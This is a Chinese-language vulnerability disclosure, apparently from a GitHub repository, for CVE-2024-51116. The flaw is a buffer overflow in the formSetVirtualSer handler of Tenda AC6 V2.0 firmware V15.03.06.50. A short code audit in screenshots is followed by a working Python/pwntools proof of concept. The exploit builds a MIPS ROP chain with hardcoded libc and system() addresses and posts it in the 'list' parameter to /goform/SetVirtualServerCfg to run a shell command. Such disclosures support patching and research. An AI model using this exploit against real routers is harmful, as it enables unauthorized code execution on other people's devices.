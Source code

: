 # tenda AC6V2.0 缓冲区溢出漏洞报告
# CVE-2024-51116

## 漏洞描述  

在 tenda AC6V2.0 的 `formSetVirtualSer` 函数中，存在缓冲区溢出漏洞。该漏洞可能导致攻击者利用恶意输入，覆盖内存中其他重要数据，从而可能导致设备崩溃或执行任意代码。  

## 影响版本  

- V15.03.06.50  

## 代码审计

参数list可控

<img width="384" alt="{927F719C-7572-4C78-A0E5-1D5690767446}" src="https://github.com/user-attachments/assets/124fd028-d56a-47cc-842e-4ab7ad5b5482">

跟进save_virtualser_data函数，list赋值给变量p

<img width="430" alt="{1930F56C-54D8-4057-A28D-4210ED88F17A}" src="https://github.com/user-attachments/assets/ab39f653-caf7-4b06-ae88-8fac4efee49b">

变量p通过sscanf函数复制给其他变量，产生溢出

<img width="540" alt="{5B434085-4CE5-430D-B922-B5F0B029D91E}" src="https://github.com/user-attachments/assets/112108f8-b013-4f05-9f53-644607b4c80d">


## 漏洞利用证明 (POC)  

```plaintext
import requests
from pwn import *

target_ip = "192.168.0.1"
target_port = 80
cookie = {"bLanguage":"zh", "password":"dmg23f"}

libcbase = 0x7f526000
mov_a0_jmp_sp = 0x28D58 + libcbase    #|addiu $a0,0x20($sp)|  jr   0x1C($sp) |
cmd = b"echo 123 > 1.txt"
system = 0x7f710b10

rop=p32(mov_a0_jmp_sp)+0x1c*b'a'+p32(system)+cmd

def exp_list():
	url = f"http://{target_ip}/goform/SetVirtualServerCfg" 
	payload = b'192.168.0.1,8080,9090,'+b'b'*0x18+rop	
	data = {"list": payload}
	response = requests.post(url, cookies=cookie, data=data)
	print(response.text)

exp_list()
